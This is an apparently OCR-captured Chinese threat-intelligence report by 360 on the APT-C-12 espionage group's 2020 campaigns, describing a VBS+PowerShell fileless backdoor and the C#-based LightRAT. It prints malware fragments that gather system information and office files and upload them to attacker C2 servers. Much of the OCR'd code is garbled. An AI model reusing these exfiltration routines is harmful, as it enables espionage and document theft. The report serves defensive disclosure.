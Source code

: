 # 蓝宝菇（APT-C-12）组织使用云存储技术发起的最新攻击活动披露  

收录于话题#蓝宝菇  

蓝宝菇（APT-C-12）组织从2011年开始持续至今，长期对国内国防、政府、科研、金融等重点单位和部门进行了持续的网络间谍活动，该组织主要关注核工业和科研等相关信息。2018年7月，我们发布了《蓝宝菇-核危机行动揭秘》报告（点击“阅读原文"查看报告），在披露了该组织相关网络间谍活动之后，蓝宝菇组织的攻击频次有所下降，但未完全停歇。继而采用了针对关键目标进行短期集中攻击的闪电战策略，如18年11月针对驻外使馆、19年3月针对某科研机构等相关攻击事先都进行了周密计划，达成后快速隐匿蛰伏。  

2020年初，在新冠疫情给全球格局带来新的冲击影响下，各APT组织针对国内的攻击活动异常活跃。蓝宝菇组织也蠢蠢欲动，相关攻击活动逐渐频繁。通过360安全大脑的遥测，我们发现该组织针对国内某重点机构的两次攻击活动中升级了技战术，开始使用云存储技术架设C2基础设施。本报告将披露该组织最新的攻击手法和网络武器。  

## 完整攻击流程分析  

蓝宝菇（APT-C-12）组织在近期的攻击中针对重点目标继续沿用了主流的鱼叉邮件攻击方式,恶意荷载主要以 ${}^{4}\setminus\ensuremath{\mathbb{B}}\ensuremath{\mathrm{S}}+$ PowerShell"无文件攻击和LightRAT木马两种形式出现。值得注意的是蓝宝菇（APT-C-12）组织开始首次使用云存储服务形式进行命令控制。  

·该组织的无文件攻击方式在压缩包附件中通常会包含一个vbs脚本和PowerShell后门程序，这种攻击手法该组织最早在19年底使用过。  
·Light RAT是该组织未被披露的最新后门程序，使用C#语言开发  

![](https://cdn-mineru.openxlab.org.cn/extract/63ba1cf2-5a5c-4554-acc4-e7017a1825d2/d559a677be05b7f0f18f99362794b5d532ea40af929723c4fc5a7e70e2fd2d93.jpg)  

## 无文件攻击分析  

360安全大脑在9月捕获到了该组织最新的无文件攻击样本，恶意荷载是VBS+PowerShelIl的形式。下图为vbs脚本的文件内容,主要功能为执行同目录下的powershell后门。  

a ${}={}$ createobject("Scripting.FileSystemObject").GetFile(Wscript.ScriptFullName).ParentFolder.Path   
set c = Create0bject("Wscript.Shell")   
$\flat=$ a & "\3457aa29a94b10654d0963e5dd819c3457aa29a94b10654d0963e5dd819   
ca9b9ada091e19d02a6e0c0f10039b8da93457aa29a94b10654d0963e5dd819ca9b9a   
da091e19d02a6e0c0f10039b8db21b9ada091e19d02a6e0c0f10039b8db21 [ps1"   
c.run "cmd /c powershell -ExecutionPolicy Unrestricted -noprofile -noninteractive -file " & """" & b & """", c.run("explorer.exe" & a &"\有关发展'….…….  

Powershell后门主要负责窃取目标计算机信息和office文件信息，加密后上传到攻击者的C2服务器。  

获取的信息有计算机系统信息，进程列表，ip信息，计算机名等等。将信息数据发送到C2如下路径：https://c2//upload//date//_threeswordsmen//start.log。  

该路径中的目录被命名为threeswordsmen，该命名源自经典武侠电影“刀剑笑"(TheThrerSwordsmen)的英文片名，后门作者习惯使用港台电影的相关词汇命名关键代码，从侧面也暴露了后门作者的母语和地域。  

Sc="https:mI';   
\$4="upload/"+(Get-Date -f yMMddhmmss)+"_threeswordsmen";   
\$SystemInfo=[Text.Encoding]::UTF8;   
\$g=[Text.Encoding]::UniCode;   
sendData "\$c/\$4/start.log" "" \$SystemInfo.GetBytes("\$(Get-Date)'r'nhost name: \$(hostname)'r'ntask list: \$((ps|%[\$_.processname})  

使用32位随机数，利用rsa加密后，使用base64编码，并发送到C2，此动作疑似是使用产生的数据对用户计算机进行标注。  

\$7=[char[]]'0123456789ABCDEF'|get-random -c 16;   
\$5=[char[]](48..57+65..90+97..122)Iget-random -c 16;   
\$d=new-object security.cryptography.aesmanaged;   
\$d.padding="Zeros";   
\$d.blocksize=128;   
\$d.keysize=128;   
\$d.key=\$5;   
\$d.IV=\$5;   
\$d.Mode='CBC';   
SRSAEncrypt=new-object security.cryptography.rsacryptoserviceprovider(1024);   
SRSAEncrypt.fromxmlstring('<RSAKeyValue><Modulus>weYx4nk/7aW2oADvmSA35VFGJVJ2ivbp7HZDWaQRCKXLtIoy1TNzcieX+CqHOzkPTLB1tMOvniaLNATQagzsrH SendData "\$c/\$4/id.cab" "" (pGZip SSystemInfo.getbytes([convert]:tobase64string(\$RSAEncrypt.encrypt(\$SystemInfo.getbytes(-join (\$7+\$5)  

随后开始窃密用户的office类的文档信息，主要关注的文档类型有.doc，.docx，.pdf，.ppt,.pptx,.xls，.xlsx，.ps1，.cpp，.eml，js,.html，.cs。  

获取文档的文件名，文件修改时间等信息后使用gzip压缩后发送到C2的如下路径https://c2//upload//date//_threeswordsmen//Mid.cab。  

Sy=(('.doc','.docx','.pdf'),('.ppt','.pptx','.xls',.xlsx','.ps1','.cpp'),('.eml','.js','.html','.cs'));   
Functionse8(\$8) \$e=180; \$t=1; \$RSAEncrypt=0; \$5=(Get-Date -f yyyMMddhhmmss)+" r' nWeek:'r'n"; \$w=0; \$p=@(); \$p+=gdr -p 'fi\*'|?{\$_.root -ne "\$env:systemdrive\"}|%[gci -fo -erroraction silentlycontinue \$_.root]; \$p+=gci -fo "\$env:systemdrive\users"; \$p+=gci -fo "\$env:systemdrive\"|?{\$_.fullname -notlike "\*:\Windows\*'-and \$_.fullname -notlike '\*:\Users'-and \$_.fullname -notlike \$p=\$plsort lastwritetime -des|%{\$ .fullname}l?f\$ };  

最后，窃取 %appdata%/Microsoft/Windows/Recent目录下的文件内容，并发送至C2。  

while(\$True) sleep -s 50000; \$SystemInfo="upload/"+(Get-Date -f yyyyMMddhhmmss)+"_threeswordsmen"; $\$0=1$ $\$1m=0$ gci "\$env:appdata\Microsoft\Windows\Recent\" -fo -errora silentlycontinuel ?{(\$y[0]+\$y[1]) -contains [io.path]::getextension(\$_.basename) -and \$_.LastWriteTime -ge (Get-Date).AddDays(-1)}l%{gi ((new-object -com wscript.shell). createshortcut(\$_.fullname)).targetpath -fo -errora silentlycontinue}|%{\$0= ReadDataandSend \$_ \$m θ \$o \$SystemInfo; $\$10=5$ .Length; If(\$0.endswith("oK\`r\`n")) \$o+=1 7  

样本中的rsapublickey以xML格式保存。<?xml version="1.o" encoding="utf-8"?>  

<RSAKeyValue> <Modulus>WeYx4nk/7aW2oADvm5A35VFGJVJ2ivbp7HZDWaQRCKXLtIoy1TNzCieX+CqH0zkP TLB1tMQvniaLNATQ0gzsrHLDxnY4uFiD5FUv4BQSE96m1758LeFE00QwD93QzA39IE/ /Ghx90 9kTWuI4TmEn3S60W6uDjBd7+J0S5XrzPsE=</Modulus> <Exponent>AQAB</Exponent>   
</RSAKeyValue>  

![](https://cdn-mineru.openxlab.org.cn/extract/63ba1cf2-5a5c-4554-acc4-e7017a1825d2/05524c33bd989fc85294c6d9218b0997a86a81138be9bdaa583a93f330e14ca0.jpg)  

## 最新LightRAT木马分析  

2020年8月，360安全大脑在蓝宝菇组织的一次攻击活动中，捕获到了该组织未被披露的最新后门程序，被攻击目标涉及国内军工产业重点单位，因木马程序中的pdb（C:\Users\user\Desktop\Light\Light\obj\x86\Release\Light.pdb ）路径，我们 将其命 名 为 LightRAT。  

在我们捕获到的利用Light RAT攻击活动中，攻击者直接投递了包含Light RAT可执行文件的恶意附件，诱导目标用户点击执行。Light RAT为C#语言编写的后门程序，主要功能为窃取目标计算机信息，搜集指定特定后缀的文件传送至C2。  

后门程序首先会复制office 的模板文件到指定目录，并打开相应的目录，以迷惑目标用户。  

string text3 $=$ environmentVariable2 $^+$ "\\documents\\" $^{+}$ text;   
if (!Directory.Exists(text3)) Directory. CreateDirectory (text3) ; string text4 $=$ environmentVariable $^+$ "\\Microsoft\\Templates\\Normal. dotm"; if (File.Exists(text4)) File.Copy(text4, text3 $^+$ "\\" + text $^+$ ". dot"); else File.CreateText(text3 + "\\" + text + ". dot");  

Process. Start (text3) ;  

![](https://cdn-mineru.openxlab.org.cn/extract/63ba1cf2-5a5c-4554-acc4-e7017a1825d2/16e518f76f9c08f23abd7d78e0dd1467ed203b5d9fdad7b120a8d300faa3adb0.jpg)  

然后获取目标计算机进程信息，计算机名、计算机用户名等信息。  

![](https://cdn-mineru.openxlab.org.cn/extract/63ba1cf2-5a5c-4554-acc4-e7017a1825d2/50e3ebf4f2d7d5b871de111d0222ccc3ce1ef38e4e15ff0e48337f3134044948.jpg)  

获取Recent目录下文件信息以及%Desktop%目录下指定文件后缀的文件信息，包括doc，docxppt，pptx，pdf，xls，xlsx后缀的文件。  

![](https://cdn-mineru.openxlab.org.cn/extract/63ba1cf2-5a5c-4554-acc4-e7017a1825d2/50fa766fb44eaa5f03e8f41437d2622762390bfcc37aaf22abee8124936d3fcb.jpg)  

搜集完所有文件和信息之后上传至C2  

string text7 $\underline{{\underline{{\mathbf{\delta\pi}}}}}$ "http://" $^+$ IPAddress. Parse(. . ToStringO).ToStringO + ":.  /good/";   
Random random $=$ new Random O) ;   
text7 $\underline{{\underline{{\mathbf{\delta\pi}}}}}$ text7 $^{+}$ text2 $^+$ random. Next (1000, 30000). ToString O ;   
try HttpWebRequest httpWebRequest $\underline{{\underline{{\mathbf{\delta\pi}}}}}$ (HttpWebRequest) WebRequest. Create(text7) ; httpWebRequest. Method $\begin{array}{r l}{=}&{{}^{\prime\prime}\mathsf{P U T}^{\prime\prime}}\end{array}$ byte[] bytes3 $=$ Encoding. UTF8. GetBytes (text5) ; httpWebRequest. ContentLength $=$ (long)bytes3. Length; using (Stream requestStream $=$ httpWebRequest. GetRequestStream O) requestStream. Write (bytes3, 0, bytes3. Length) ; 1 httpWebRequest. GetResponse () ;  

### $\diamond$ C2基础设施分析  

在APT-C-12的两次攻击活动，均存在文件信息以及文件上传的操作，我们发现攻击者使用了开源云盘系统和云对象存储系统搭建C2基础设施，相关的云服务如下图所示。  

![](https://cdn-mineru.openxlab.org.cn/extract/63ba1cf2-5a5c-4554-acc4-e7017a1825d2/f9bf2879266cd0c56a73052f00571017b337eef75822940d66aab41b4eb12a5b.jpg)  

这是蓝宝菇（APT-C-12）组织首次使用私有的云存储服务器进行命令控制，利用相关服务收集中招用户的信息、文件，以及分发恶意软件。  

在相关样本代码中可以看到，其使用了各类云服务应用经常使用的对象存储方式传送文件，以PUT请求利用pre-signed URLs来进行上传操作，这样所有文件传输都伪装成了正常的云存储服务请求，在一定情况下可以躲避异常的网络流量识别。  

![](https://cdn-mineru.openxlab.org.cn/extract/63ba1cf2-5a5c-4554-acc4-e7017a1825d2/7ffba07db76dfb0955194d9469a406ed3a89aa743d6e39896546603edb541a28.jpg)  

# 360高级威胁研究院  

360高级威胁研究院是360政企安全集团的核心能力支持部门，由360资深安全专家组成，专注于高级威胁的发现、防御、处置和研究，曾在全球范围内率先捕获双杀、双星、噩梦公式等多起业界知名的0day在野攻击，独家披露多个国家级APT组织的高级行动，赢得业内外的广泛认可，为360保障国家网络安全提供有力支撑。  

文章已于2020-10-14修改  